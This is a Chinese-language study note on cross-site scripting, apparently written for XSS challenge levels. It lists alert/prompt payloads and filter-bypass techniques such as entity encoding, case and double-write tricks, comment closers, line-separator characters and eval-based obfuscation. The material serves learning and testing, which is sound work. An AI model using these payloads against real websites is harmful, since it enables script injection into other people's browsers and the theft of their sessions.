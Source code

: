 # XSS-EASY

## 语句

* 可以进行直接跳转的语句

  ```html
  <script>alert(1)</script>
  <a href=javascript:alert(1)>111</a>
  <input value="1" type="button" onclick="alert(1)">
  <input value="1" type="button" onclick=alert(1)> // 这个到底加不加引号...
  <img src=ssss.ss onerror=alert(1)>
  <iframe src=11 onload=alert(1)>
  <iframe src=11 onmouseover=alert(1)>
  <svg onload=alert(1)>
  ```

* 包含跳转

  ```html
  <ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
  ```

  如level15用到的

  ```html
  https://xss.angelo.org.cn/level15.php?src="level1.php?name=<a href=javascript:alert(1)>xss</a>"
  ```

## 绕过

* 如果源码自带引号

  * 需要使用引号（区分单双引号）进行闭合，还要闭合尖括号

  > 题目源码上用的双引号，但是又把双引号给实体化了，那就应该没有办法闭合了
  >
  > * 也许`%0d`跳到下一行？
  > * 也许可以尝试不闭合，直接在当前标签里面加内容，但是如果是value="xxx"，那也没有用

* 如果过滤了某个关键词

  * 将关键词某个地方添加下划线（更改关键词）
    * 换另外的关键词用
    * 使用命名实体绕过，如`s`可以写成`&#083;` `&#115;`
    * 大小写绕过

  * 将关键词置为空
    * 可以考虑大小写绕过
    * 可以双写绕过
    * 命名实体绕过
    * 换关键词

* 过滤空格
  
* 可以考虑`%0a` `%0d`绕过，这种建议在地址栏输入
  
* 过滤了`<` `>`
  
*  可以尝试用onclick在原本的标签里添加(因为不能添加标签了)
  
* 检测传上去的是否包含某个关键词

  * 可以将关键词放后面，然后注释掉，如需要`http://`关键词：

    ```
    java&#083;cript:alert(1) // http://
    ```

* 回显部分被隐藏，如`type="hidden"`
  * 在传输的时候，将type更改成可视，如`type="button"`，这个需要onclick等配合
  * 或者添加参数：onload，onerror，onmouseover等
* 网页显示图片的某个信息
  
* 更改图片的信息，造成XSS漏洞
  
* 找不到传输的地方？
  * user-agent
  * cookie
  * referer
  * ...

## 知识链接

1.  [命名实体](https://www.jb51.net/onlineread/htmlchar.htm) (非特殊字符转义后变成 `&#[ASCII码];`）

2.  [html标签](https://www.runoob.com/tags/html-reference.html)
3.  [ng-include](https://www.w3schools.com/angular/ng_ng-include.asp)

# XSS-MEDIUM

## 知识点
* 正则表达式
        [正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)
        [正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)
        [正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

* `<script>`标签不饿能自动闭合

   > `<script>`标签必须要闭合，否则js代码不能执行
   > 只有img， input， link， hr，video，audio能自动闭合

* `__proto__`
    每个对象都会在内部初始化这个属性
    当访问对象的某个属性时，如果不存在这个属性，便会去proto里寻找这个属性。

* replace()特性

    <img src="_XSS-summarize_image/image-20201121001528627.png" alt="image-20201121001528627" style="zoom:50%;" />

    ```
    >'11223344'.replace('2',"test")
    "11test23344"
    >'11223344'.replace('2',"$`test")
    "1111test23344"
    >'11223344'.replace('2',"$'test")
    "1123344test23344"
    >'11223344'.replace('2',"$&test")
    "112test23344"
    ```

## 绕过

* 空格被置为空

    `(`将其实例化`&#40;` `&#040;`，还需要`<svg>`等标签将其反实例化。

    ```html
    <svg><script>alert&#40;1)</script>
    ```

* `->`被过滤，无法闭合注释。

    可以尝试使用`--!>`来闭合`<!--`
    
* 过滤了一般注释 如过滤了`<!--` 和`//`

    可以使用 `-->` 来注释

* 换行 (`\r` `\n`)被过滤，又必须要换行的时候（如绕过单行注释）

    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  

    使用方法：先用url编码写进burp，然后在burp里面进行url解码

    <img src="_XSS-summarize_image/burp%E8%BD%AC%E7%A0%81.png" alt="burp" style="zoom:50%;" />

* 过滤`on`开头`=`结尾，如`onclick=`

    因为等号的缘故，可以用空格换行等来绕过

    ```
    onclick
    =
    ```

* 检测`document`的某个元素

  可以用另一个元素进行重名覆盖，将input的name改成action，name的action就覆盖了document的action。

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();
</script>
<!-- payload: javascript:prompt(1)#{"action":"111"} -->
```

* 每一段有字符限制，无法构造完整payload

    ```html
    // payload
    // 在标签里面不能注释，如果标签确实差了一些字符，见第一条
    // 关键词不能用注释分开
    // 括号里可以注释
    // 关键词和后面的括号可以用注释分开
    "><svg a=
    /*
    <!--
    ```

* toUpperCase()

    这个时候一些函数因为被大写了，无法使用，可以尝试使用`src=` 这个参数，去包含自己的hack.js(文件名记得大写)

    这个函数还有一个bug， 就是`ſ`经过toUpperCase()之后会被转换成`s`，可以当`s`被过滤的时候来使用

* 当几乎所有的特殊字符都被过滤（包括`=`），但没有过滤`"` 和`()`

    这个时候可以使用`in`运算符

    >在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。
    >
    >```
    >"(prompt(1))instanceof"
    >"(prompt(1))in"
    >```

* 当你的payload直接被加在`<script>`标签里面的时候，又被屏蔽了关键字

    可以采用编解码加eval的方式在过滤，如：

    ```html
    <script> eval((1354620604).toString(35))(1) </script>
    <!-- <script> prompt(1)</script> -->
    ```


